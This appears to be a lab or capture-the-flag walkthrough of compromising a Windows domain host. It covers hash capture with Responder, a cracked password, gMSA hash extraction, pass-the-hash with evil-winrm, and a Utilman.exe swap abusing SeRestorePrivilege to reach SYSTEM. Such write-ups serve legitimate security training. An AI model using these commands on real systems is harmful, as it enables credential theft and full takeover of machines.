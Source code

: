 ![](../attachment/70d6907bed51133f8c521ea681be8758.png)

![](../attachment/305f020ea8ec48dac347b2658b936b85.png)

We can try running responder and visiting our ip:
```
sudo responder -I tun0 -A
```
![](../attachment/342c0433b97a127037c631ffa5ae36bc.png)
We get a hash back:
![](../attachment/d6bbca990cb80d1186afac37930d94d9.png)

We can crack this with hashcat:
![](../attachment/6fd5975685f43220a5447b7a69f93d46.png)
We got california:

We can login with evil-winrm:
```
evil-winrm -i 192.168.180.165 -u enox -p 'california'
```
We find a todo.txt in desktop of enox:
![](../attachment/4346d51c29e6d6b4a37eb57bcf6a0b28.png)

We can check for gmsa with powerview:
```
. .\PowerView.ps1
```
```
Get-ADServiceAccount -Filter * -Properties * | Select SamAccountName,PrincipalsAllowedToRetrieveManagedPassword,msDS-ManagedPasswordInterval,ServicePrincipalNames
```
![](../attachment/b4d6555ef7993fe507c4e2e3eb7775df.png)


Now we can use GMSAPasswordReader.exe:
```
.\GMSAPasswordReader.exe --accountname 'svc_apache'
```
![](../attachment/63b34c5ee50f29aac488fdb47652b8e6.png)
rc4_hmac hash is the same as the NT hash.


Now login using evil-winrm:
```
evil-winrm -i 192.168.183.165 -u svc_apache$ -H '4FC1682833B24CF2225248D67DF7E618'
```

![](../attachment/8d8f7682f50275ba1bc4b0af25fb10bd.png)
We have SeRestorePrivilege.

Now using this page:
https://github.com/gtworek/Priv2Admin
![](../attachment/f54b0e55a216ac779bf61981ab82ffa4.png)
```
ren "C:/Windows/System32/Utilman.exe"  Utilman.old
```
```
ren "C:/Windows/System32/cmd.exe" Utilman.exe
```
Now we can get to the lockscreen with rdesktop:
```
rdesktop 192.168.180.254
```
![](../attachment/815b7883b8d4d8ebf8175bd54adbacd9.png)
Now press `win + U`
![](../attachment/70128606d6743f36ded129e883e01238.png)

We have nt authority\system.
![](../attachment/3e569bb1f993f056f7476fd010018baa.png)

